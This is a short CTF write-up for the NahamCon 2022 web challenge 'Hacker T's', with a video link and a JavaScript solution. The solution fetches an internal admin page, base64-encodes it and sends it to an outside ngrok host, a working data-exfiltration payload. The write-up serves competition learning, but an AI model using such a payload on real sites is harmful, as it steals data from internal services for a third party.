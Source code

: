 ```yaml
---
name: Hacker T's (2022)
event: NahamCon CTF 2022
category: Web
description: Writeup for Hacker T's (Web) - NahamCon CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Hacker T's

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/ttsFRYkL8wQ/0.jpg)](https://youtu.be/ttsFRYkL8wQ?t=1362 "NahamCon CTF 2022: Hacker T's")

## Description

> We all love our hacker t-shirts. Make your own custom ones.

## Solution

```js
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://localhost:5000/admin");
xhr.onload = function () {
    var flag = btoa(xhr.responseText);
    var exfil = new XMLHttpRequest();
    exfil.open("GET", "http://9106-81-103-153-174.ngrok.io?flag=" + flag);
    exfil.send();
};
xhr.send();
```
